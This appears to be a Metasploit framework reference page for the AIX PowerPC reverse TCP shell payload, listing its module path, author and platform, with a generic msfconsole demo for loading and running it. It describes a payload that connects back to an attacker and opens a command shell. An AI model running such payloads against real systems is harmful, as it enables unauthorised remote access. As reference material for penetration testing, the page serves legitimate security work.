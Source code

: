 ## AIX Command Shell, Reverse TCP Inline

Connect back to attacker and spawn a command shell


## Module Name
payload/aix/ppc/shell_reverse_tcp

## Authors
Ramon de C Valle





## Platforms
aix

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/aix/ppc/shell_reverse_tcp
msf payload(shell_reverse_tcp) > show targets
   ... a list of targets ...
msf payload(shell_reverse_tcp) > set TARGET <target-id>
msf payload(shell_reverse_tcp) > show options
   ... show and set options ...
msf payload(shell_reverse_tcp) > run
```
    
    